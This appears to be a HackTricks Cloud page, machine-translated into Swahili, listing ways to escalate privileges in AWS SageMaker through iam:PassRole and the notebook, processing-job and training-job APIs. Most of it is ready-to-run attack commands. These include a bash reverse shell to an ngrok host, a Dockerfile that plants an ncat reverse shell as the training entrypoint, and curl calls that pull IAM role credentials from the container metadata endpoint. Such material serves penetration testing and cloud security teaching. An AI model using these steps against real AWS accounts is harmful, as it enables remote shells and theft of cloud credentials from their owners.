 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Anza kuunda notebook na IAM Role ili kupata iliyoambatanishwa nayo:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Majibu yanapaswa kuwa na uwanja wa `NotebookInstanceArn`, ambao utakuwa na ARN ya mfano wa notebook mpya ulioanzishwa. Tunaweza kisha kutumia API ya `create-presigned-notebook-instance-url` kuunda URL ambayo tunaweza kutumia kufikia mfano wa notebook mara itakapokuwa tayari:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate to the URL with the browser and click on \`Open JupyterLab\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

Sasa inawezekana kufikia akreditivu za metadata za IAM Role.

**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya sagemaker iliyotajwa.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ikiwa kuna Jupyter **notebooks tayari zinaendesha** kwenye hiyo na unaweza kuorodhesha hizo kwa `sagemaker:ListNotebookInstances` (au kuzipata kwa njia nyingine yoyote). Unaweza **kuunda URL kwa ajili yao, kuzipata, na kuiba akreditivu kama ilivyoonyeshwa katika mbinu ya awali**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililounganishwa.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Mshambuliaji mwenye ruhusa hizo anaweza kufanya **sagemaker kutekeleza processingjob** iliyo na jukumu la sagemaker lililounganishwa. Mshambuliaji anaweza kuashiria ufafanuzi wa kontena ambalo litakimbia katika **AWS managed ECS account instance**, na **kuchukua hati za ruhusa za jukumu la IAM lililounganishwa**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya sagemaker iliyotajwa.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza kuunda kazi ya mafunzo, **ikiendesha kontena chochote** juu yake na **jukumu lililounganishwa** nalo. Hivyo, mshambuliaji ataweza kuiba akidi za jukumu hilo.

{% hint style="warning" %}
Hali hii ni ngumu zaidi kutekeleza kuliko ile ya awali kwa sababu unahitaji kuunda picha ya Docker ambayo itatuma rev shell au creds moja kwa moja kwa mshambuliaji (huwezi kuashiria amri ya kuanzia katika usanidi wa kazi ya mafunzo).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililotajwa.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza (kwa uwezekano) kuunda **kazi ya mafunzo ya hyperparameter**, **akikimbia kontena chochote** juu yake na **jukumu lililounganishwa** nalo.\
_Sijafanikiwa kutumia kwa sababu ya ukosefu wa muda, lakini inaonekana kama mashambulizi ya awali, jisikie huru kutuma PR yenye maelezo ya matumizi._

## Marejeleo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
